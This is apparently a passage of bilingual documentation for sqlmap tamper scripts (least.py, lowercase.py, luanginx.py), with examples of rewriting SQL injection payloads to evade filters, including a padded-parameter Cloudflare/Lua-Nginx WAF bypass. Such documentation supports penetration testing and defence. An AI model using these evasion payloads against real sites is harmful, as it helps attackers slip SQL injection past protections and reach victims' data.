 ### least.py

> Replaces greater than operator ('>') with 'LEAST' counterpart

用 `LEAST` 代替大于运算符（`>`）。

Tested against:
* MySQL 4, 5.0 and 5.5
* Oracle 10g
* PostgreSQL 8.3, 8.4, 9.0

```py
>>> tamper('1 AND A > B')
'1 AND LEAST(A,B+1)=B+1'
```

### lowercase.py

> Replaces each keyword character with lower case value (e.g. SELECT -> select)

用小写字母值替换每个关键词字符（例如：`SELECT` -> `select`）。

Tested against:
* Microsoft SQL Server 2005
* MySQL 4, 5.0 and 5.5
* Oracle 10g
* PostgreSQL 8.3, 8.4, 9.0

```py
>>> tamper('INSERT')
'insert'
```

### luanginx.py

> LUA-Nginx WAFs Bypass (e.g. Cloudflare)

Reference:
* https://opendatasecurity.io/cloudflare-vulnerability-allows-waf-be-disabled/

```py
>>> random.seed(0); hints={}; payload = tamper("1 AND 2>1", hints=hints); "%s&%s" % (hints[HINT.PREPEND], payload)
'34=&Xe=&90=&Ni=&rW=&lc=&te=&T4=&zO=&NY=&B4=&hM=&X2=&pU=&D8=&hm=&p0=&7y=&18=&RK=&Xi=&5M=&vM=&hO=&bg=&5c=&b8=&dE=&7I=&5I=&90=&R2=&BK=&bY=&p4=&lu=&po=&Vq=&bY=&3c=&ps=&Xu=&lK=&3Q=&7s=&pq=&1E=&rM=&FG=&vG=&Xy=&tQ=&lm=&rO=&pO=&rO=&1M=&vy=&La=&xW=&f8=&du=&94=&vE=&9q=&bE=&lQ=&JS=&NQ=&fE=&RO=&FI=&zm=&5A=&lE=&DK=&x8=&RQ=&Xw=&LY=&5S=&zi=&Js=&la=&3I=&r8=&re=&Xe=&5A=&3w=&vs=&zQ=&1Q=&HW=&Bw=&Xk=&LU=&Lk=&1E=&Nw=&pm=&ns=&zO=&xq=&7k=&v4=&F6=&Pi=&vo=&zY=&vk=&3w=&tU=&nW=&TG=&NM=&9U=&p4=&9A=&T8=&Xu=&xa=&Jk=&nq=&La=&lo=&zW=&xS=&v0=&Z4=&vi=&Pu=&jK=&DE=&72=&fU=&DW=&1g=&RU=&Hi=&li=&R8=&dC=&nI=&9A=&tq=&1w=&7u=&rg=&pa=&7c=&zk=&rO=&xy=&ZA=&1K=&ha=&tE=&RC=&3m=&r2=&Vc=&B6=&9A=&Pk=&Pi=&zy=&lI=&pu=&re=&vS=&zk=&RE=&xS=&Fs=&x8=&Fe=&rk=&Fi=&Tm=&fA=&Zu=&DS=&No=&lm=&lu=&li=&jC=&Do=&Tw=&xo=&zQ=&nO=&ng=&nC=&PS=&fU=&Lc=&Za=&Ta=&1y=&lw=&pA=&ZW=&nw=&pM=&pa=&Rk=&lE=&5c=&T4=&Vs=&7W=&Jm=&xG=&nC=&Js=&xM=&Rg=&zC=&Dq=&VA=&Vy=&9o=&7o=&Fk=&Ta=&Fq=&9y=&vq=&rW=&X4=&1W=&hI=&nA=&hs=&He=&No=&vy=&9C=&ZU=&t6=&1U=&1Q=&Do=&bk=&7G=&nA=&VE=&F0=&BO=&l2=&BO=&7o=&zq=&B4=&fA=&lI=&Xy=&Ji=&lk=&7M=&JG=&Be=&ts=&36=&tW=&fG=&T4=&vM=&hG=&tO=&VO=&9m=&Rm=&LA=&5K=&FY=&HW=&7Q=&t0=&3I=&Du=&Xc=&BS=&N0=&x4=&fq=&jI=&Ze=&TQ=&5i=&T2=&FQ=&VI=&Te=&Hq=&fw=&LI=&Xq=&LC=&B0=&h6=&TY=&HG=&Hw=&dK=&ru=&3k=&JQ=&5g=&9s=&HQ=&vY=&1S=&ta=&bq=&1u=&9i=&DM=&DA=&TG=&vQ=&Nu=&RK=&da=&56=&nm=&vE=&Fg=&jY=&t0=&DG=&9o=&PE=&da=&D4=&VE=&po=&nm=&lW=&X0=&BY=&NK=&pY=&5Q=&jw=&r0=&FM=&lU=&da=&ls=&Lg=&D8=&B8=&FW=&3M=&zy=&ho=&Dc=&HW=&7E=&bM=&Re=&jk=&Xe=&JC=&vs=&Ny=&D4=&fA=&DM=&1o=&9w=&3C=&Rw=&Vc=&Ro=&PK=&rw=&Re=&54=&xK=&VK=&1O=&1U=&vg=&Ls=&xq=&NA=&zU=&di=&BS=&pK=&bW=&Vq=&BC=&l6=&34=&PE=&JG=&TA=&NU=&hi=&T0=&Rs=&fw=&FQ=&NQ=&Dq=&Dm=&1w=&PC=&j2=&r6=&re=&t2=&Ry=&h2=&9m=&nw=&X4=&vI=&rY=&1K=&7m=&7g=&J8=&Pm=&RO=&7A=&fO=&1w=&1g=&7U=&7Y=&hQ=&FC=&vu=&Lw=&5I=&t0=&Na=&vk=&Te=&5S=&ZM=&Xs=&Vg=&tE=&J2=&Ts=&Dm=&Ry=&FC=&7i=&h8=&3y=&zk=&5G=&NC=&Pq=&ds=&zK=&d8=&zU=&1a=&d8=&Js=&nk=&TQ=&tC=&n8=&Hc=&Ru=&H0=&Bo=&XE=&Jm=&xK=&r2=&Fu=&FO=&NO=&7g=&PC=&Bq=&3O=&FQ=&1o=&5G=&zS=&Ps=&j0=&b0=&RM=&DQ=&RQ=&zY=&nk=&1 AND 2>1'
```
